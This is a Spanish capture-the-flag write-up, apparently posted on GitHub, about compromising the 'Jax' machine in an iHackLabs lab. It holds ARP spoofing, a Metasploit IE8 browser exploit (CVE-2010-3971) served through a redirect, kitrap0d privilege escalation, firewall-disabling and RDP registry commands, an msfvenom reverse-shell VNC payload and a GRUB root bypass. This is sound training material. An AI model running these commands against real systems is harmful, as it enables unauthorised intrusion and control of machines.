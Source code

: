 # iHackLabs CTF - JAX

### Descripcion

En este CTF nos encontramos en un laboratorio del estilo OSCP con una conexión 
VPN para cada participante, el laboratorio se compone de 4 maquinas:
```
        +----------+  +----------+  +----------+  +----------+
        |  Cisco   |  |  Josie   |  |   Jax    |  |  Sammy   |
        |          |  |          |  |          |  |          |
        |10.x.0.150|  |10.x.0.151|  |10.x.0.152|  |10.x.0.153|
        +-----+----+  +---+------+  +--------+-+  +-----+----+
              ^           ^                  ^          ^
              |           |    +---------+   |          |
              |           +----+   VPN   +---+          |
              |                |         |              |
              +----------------+10.x.0.x +--------------+
                               +---------+
```
En este caso voy a contar como he resuelto la maquina Jax, tanto el acceso de
Administrador, como la parte de exploiting. 

### Búsqueda de Información

Comenzamos escaneando la maquina Jax, lanzamos un Nmap y observamos el puerto 80
abierto con un servidor IIS 7.5. Realizamos las tareas de enumeración web para
localizar posibles vectores vulnerables. Tras un exhaustivo reconocimiento 
llegamos a la conclusión de que no hay nada que podamos aprovechar en la 
parte web. Al no ver nada decidimos lanzar un wireshark para analizar el 
trafico de red. 

Tras un rato analizando el trafico decidimos hacer un ARP Spoofing para ver si
logramos interceptar alguna petición de la maquina .152. Después de la espera
encontramos en una de las tramas una petición web del servidor .152 al .153
```
                   +-----------+       +-----------+
                   |    Jax    |       |   Sammy   |
                   |           +------->           |
                   |10.x.0.152 |       | 10.x.0.153|
                   +-----------+       +-----------+
                      GET /wordpress/cepheus.html
```

Esta conexión se realiza desde Jax a Sammy que anteriormente había sido
vulnerada, con lo cual accedemos al archivo /var/log/httpd-access.log para ver 
las peticiones que esta realizando al servidor.
```
root@Sammy:/var/log # cat httpd-access.log

10.x.0.152 - - [24/Jan/2018:06:34:54 +0000] "GET /wordpress/cepheus.html 
HTTP/1.1" 304 - "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; 
Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)"
```
Si accedemos al archivo que esta solicitando el servidor nos encontramos con un
"Hola Mundo". Tras analizar el User-Agent nos percatamos de que la petición se
esta realizando desde un navegador Internet Explorer 8.0, proporcionando 
información que puede sernos de utilidad.

### Análisis de la vulnerabilidad

Buscando información sobre exploits públicos para Internet Explorer 8.0
damos con el exploit que se adapta al entorno que vamos a explotar. 

Se trata del CVE-2010-3971, un User-After-free en la función 
CSharedStyleSheet::Notify en el parser de CSS dentro de la librería mshtml.dll,
usado en IE6, IE7 y IE8 que permite ejecutar código. 

Tras analizar la vulnerabilidad, buscamos una PoC publica, localizamos 3, 
la PoC original del researcher que encontró el fallo, que produce un DoS. 
Un exploit de ejecución de código escrito en ruby y el tercero un modulo 
para metasploit también para ejecución de código.

### Explotación

Tras realizar varias pruebas con las PoC's publicas utilizamos el modulo de
metasploit para realizar la explotación. Accedemos al fichero cepheus.html para
modificar el "Hola Mundo" por una redirección a nuestro servidor donde montamos
con metasploit un servidor web con la PoC.
```
                          CVE-2010-3971
             +---------------------------------------+
             |                                       |
        +----v-----+      +----------+     +---------v--+
        |   Jax    |      |  Sammy   |     |LocalMachine|
        |          |      |          |     |            |
        |10.x.0.152|      |10.x.0.153|     |10.x.0.202  |
        +----+-----+      +--^-----+-+     +------+-----+
             |               |     |              ^
             +---------------^     |              |
       GET /wordpress/cepheus.html |              |
                                   |              |
                                   |              |
                                   +--------------+
                                       Redirect
                                    
```
```
use exploit/windows/browser/ms11_003_ie_css_import
```
Tras configurar las opciones de la reversa y las opciones del exploit como el
path procedemos a lanzarlo, la petición la realiza Jax a Sammy cada 5 min. por
lo que si el exploit falla tenemos que esperar otros 5 minutos para volver a
intentarlo.

```
10.x.0.152	ms11_003_ie_css_import - Received request for "/"
```

Tras recibir la shell con meterpreter ya tenemos acceso al servidor con el
usuario Ihacklabs, recorremos los directorios del sistema hasta llegar al
Escritorio donde tenemos el archivo Flag.txt con lo cual ya tenemos la flag de
acceso Admin del servidor, ahora tenemos que encontrar la flag de exploiting...

Tras un rato de búsqueda en la maquina localizamos un archivo .ova en descargas
y también nos percatamos que tiene instalado VirtualBox con lo cual nos dan a
entender que tenemos que acceder por RDP al sistema para poder acceder al
Virtualbox y continuar con el reto. Llegados a este punto procedemos a elevar
privilegios en el sistema para poder acceder a directorios que no tenemos
permisos o cualquier otra tarea que requiera permisos de NT SYSTEM,
con otro exploit para metasploit en este caso usamos:
```
use exploit/windows/local/ms10_015_kitrap0d
```
Tras elevar permisos lo que hacemos es desactivar el firewall
```
netsh advfirewall set allprofiles state off
```
Y levantar el servicio de RDP a través del registro del sistema.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" 
/v fDenyTSConnections /t REG_DWORD /d 0 /f
```
Después de lanzar los comandos nos damos cuenta que el RDP no esta activo, con
lo cual revisamos la versión de Windows y vemos que es un Windows 7 Home por lo
tanto no vamos a tener RDP, tenemos que buscar una alternativa en este caso
utilizamos otra herramienta de metasploit, VNCInject para lograr conectar por
escritorio remoto a la maquina.

Generamos el payload con msfvenom para subirlo a la maquina y así lograr
conectar por escritorio remoto
```
msfvenom -p windows/vncinject/reverse_tcp lhost= lport= -f exe > vnc.exe
```
Ponemos el handler a la escucha y configuramos el payload sin olvidarnos de
configurar la opción para que nos deje utilizar el ratón.
```
use multi/handler
set payload windows/vncinject/reverse_tcp
```
Tras ejecutar el vnc.exe que hemos creado anteriormente con msfvenom recibimos
en el handler la conexión del servidor y nos muestra el escritorio.

Ahora abrimos el Virtualbox y allí nos encontramos una maquina montada que se
corresponde con la .ova encontrada anteriormente

Tras iniciar la maquina virtual vemos que somos capaces de acceder al grub con
lo que sin mirar mucho mas utilizamos la técnica del grub [init=/bin/bash] 
y accedemos como root al filesystem de la maquina virtual, vamos a la carpeta
/home/reto/flag.txt y encontramos la flag de Exploiting. Por fin hemos acabado
con todas las maquinas :D, aunque tengo las sospechas que esta ultima maquina 
no se hacia así...

Borja
